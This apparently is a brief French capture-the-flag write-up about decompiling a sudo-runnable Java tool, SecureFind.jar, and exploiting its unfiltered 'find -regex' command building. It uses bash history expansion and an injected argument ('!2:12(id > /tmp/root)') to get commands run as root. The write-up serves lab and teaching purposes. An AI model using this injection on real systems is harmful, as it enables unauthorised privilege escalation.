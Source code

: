 # Writeup

## Reverse SecureFind.jar

```
scp -P 2223 test@localhost:/home/test/SecureFind.jar .
```

Reverse avec JD-GUI pour trouver la vulnérabilité : Injection de commande

```java
os.write(("find . -type f -regex \"" + regex + "\"").getBytes());
```

L'absence de filtrage sur "!" nous permet d'intéagir avec l'historique et ainsi de trouver cette ligne dans l'historique de root :


```
test@60be70123487:~$ sudo /usr/local/openjdk-24/bin/java -jar /home/test/SecureFind.jar '!2'
root@60be70123487:/home/test# find . -type f -regex "!2"
find . -type f -regex "echo Mr Doe told me to block these characters : &;|#`! and $"
```

En utilisant la bonne syntaxe on peut ainsi utiliser le caractère '$' pour devenir root.

```
sudo /usr/local/openjdk-24/bin/java -jar /home/test/SecureFind.jar '!2:12(id > /tmp/root)'
```
